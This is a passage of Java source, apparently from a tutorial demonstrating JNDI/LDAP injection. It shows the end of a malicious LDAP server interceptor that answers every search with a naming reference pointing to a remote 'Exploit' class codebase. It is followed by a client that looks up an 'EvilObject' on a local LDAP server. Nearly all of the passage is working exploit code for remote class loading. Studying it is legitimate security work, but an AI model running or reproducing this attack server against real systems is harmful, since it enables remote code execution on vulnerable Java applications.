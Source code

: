 ```java
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

LdapClient

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class LdapClient {
    public static void main(String[] args) throws Exception{
        try {
            Context ctx = new InitialContext();
            ctx.lookup("ldap://localhost:1234/EvilObject");
            String data = "This is LDAP Client.";
            //System.out.println(serv.service(data));
        }
        catch (NamingException e) {
            // TODO Auto-generated catch block
            e.printStackTrace();
        }
    }
}
```
